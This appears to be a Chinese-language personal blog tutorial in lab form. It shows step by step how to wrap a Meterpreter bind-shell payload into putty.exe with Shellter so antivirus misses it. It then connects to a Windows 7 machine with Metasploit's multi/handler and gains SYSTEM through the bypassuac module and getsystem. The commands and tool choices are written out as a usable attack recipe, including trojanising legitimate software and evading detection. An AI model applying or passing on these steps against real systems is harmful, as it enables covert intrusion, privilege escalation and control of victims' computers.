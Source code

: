 +++
title = 'Metasploit 基础使用 handler 连接 win7 并提权清除日志'
date = 2020-12-11T15:55:33+08:00
draft = false
categories = ["运维"]
tags = ["信息安全","Linux"]
+++
#### 简介

目前根据 [i 春秋][] 进行学习,目前到利用 [shellter][] 进行文件捆绑木马并达到免查杀的效果, 在使用 [metasploit][] 对指定目标机进行监听获取权限.利用打包好的漏洞程序进行提权并清除日志信息.这里我们的步骤是根据这个 [来源][] 学习进行的.
<!-- more -->
-------------------------

#### 操作环境

- kali 2020.4
- shellter 7.2-amd64
  - wine \ wine64 \ wine32
- metasploit  6.0.18-dev
- win 7 企业版
- 注:请特别注意关闭 *win7* 的防火墙,不要说为什么我的没有用连接不上

---------

#### 具体操作

首先下载 [putty.exe][] , 使用 *shellter* 进行木马封装,记住这些我们都是在 *kali* 虚拟机下完成的; *kali 2020.4* 并没有预安装 *shellter* 使用了 `sudo apt-get install shellter` 进行安装, 安装完了之后控制台返回了一个错误信息,希望我们添加 *32* 位的资源并且下载 *wine32* (这里的具体命令我记得并不是很清晰了,请自行看控制台).

安装好了 *shellter* 之后我们在终端输入 `sudo shellter` 会出现一个新的窗口, 这里会出现一些选择 (请参考下图), 目前我了解的 `a` 代表的是 *auto* 自动的意思. 而这里的 `m` 似乎代表的是 *manual*, 这里我们仅说明自动的操作. 选择自动模式后我们输入一个 [绝对路径][] (这里如果没有使用 *root* 权限执行 *shellter* 那么会提示让你权限不足).

![shellter-1][]

我们设置好了文件路径之后,继续输入 `y` 以及英文字母 `l`, 这时候需要选择具体的连接方式

- *Meterpreter_Reverse_TCP*
- *Meterpreter_Reverse_HTTP*
- *Meterpreter_Reverse_HTTPS*
- *Meterpreter_Bind_TCP*
- *Shell_Reverse_TCP*
- *Shell_Bind_Tcp*
- *WinExec*

首先我们说明选项中带有 *Meterperter* 表示支持使用 *Metasploit* 中的模块(推荐,提权之类的需要,漏洞利用); *Shell* 顾名思义就是一个 *shell* 对话框; 这里面还有 *Reverse* 和 *Bind* 这两种模式 **反向连接** 和 **正向连接**, 反向的意思是目标机运行文件之后主动连接我们, 正向是目标运行文件之后开放端口等待我们进行连接. 这里教程选择 *4*, 这里暂不做扩展.

后续输入的 *0.0.0.0* 表示任何 *IP* 都可以访问, *65500* 代表开放的端口等待控制

![shellter-2][]

![shellter-3][]

这里我们需要运行 *Metasploit* 使用指定模块进行目标机的监听

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/meterpreter/bind_tcp`
- `show options`
- `set RHOST [IP]`
  - 请替换成你目标机的 *IP*, 不懂的话可以点击 *win7* 系统桌面下角的开始按键, 输入 `cmd` 你会获得一个黑窗口输入 `ipconfig`
- `set LPORT 65500`
  - 这个 *65500* 是根据三方第三张图中 *shellter* 之前设置的

- `exploit`

![msfconsole-1][]

目标机被执行了我们的程序之后我们的监听状态的就会自动连接,但是现在的执行的用户并不总是 *Administrator* 那么我们就需要提权,我们可以先执行 `background` 然后使用 *exploit/windows/local/bypassuac* 这个模板进行提权,源博客 [提权教程博客][].

```shell
meterpreter > background
msf6 exploit(multi/handler) > exploit/windows/local/bypassuac
msf6 exploit(windows/local/bypassuac) > sessions -l#这个会显示当前监听连接的列表以便 exploit/windows/local/bypassuac 的 session 参数赋值
msf6 exploit(windows/local/bypassuac) > set SESSION 1
msf6 exploit(windows/local/bypassuac) > sessions 1
meterpreter > getuid
meterpreter > getsystem
```

![msfconsole-2][]

![msfconsole-3][]





[i 春秋]: https://www.ichunqiu.com/course/58625
[shellter]: https://www.shellterproject.com/download/
[metasploit]: https://baike.baidu.com/item/Metasploit/4926164?fr=aladdin
[来源]: http://codefocus.top/?p=121
[putty.exe]: https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe "这个是官网的下载链接,如果下载网速有问题的请自行寻找资源"
[绝对路径]: https://baike.baidu.com/item/%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84/481185?fr=aladdin
[提权教程博客]: http://codefocus.top/?m=201704





[shellter-1]: https://images.ha0zi.com/note/2024/04/27/image-20240427214157637.png
[shellter-2]: https://images.ha0zi.com/note/2024/04/27/image-20240427214034077.png
[shellter-3]: https://images.ha0zi.com/note/2024/04/27/image-20240427213932554.png
[msfconsole-1]:  https://images.ha0zi.com/note/2024/04/27/image-20240427213834790.png
[msfconsole-2]: https://images.ha0zi.com/note/2024/04/27/image-20240427213414117.png
[msfconsole-3]: https://images.ha0zi.com/note/2024/04/27/image-20240427213617060.png
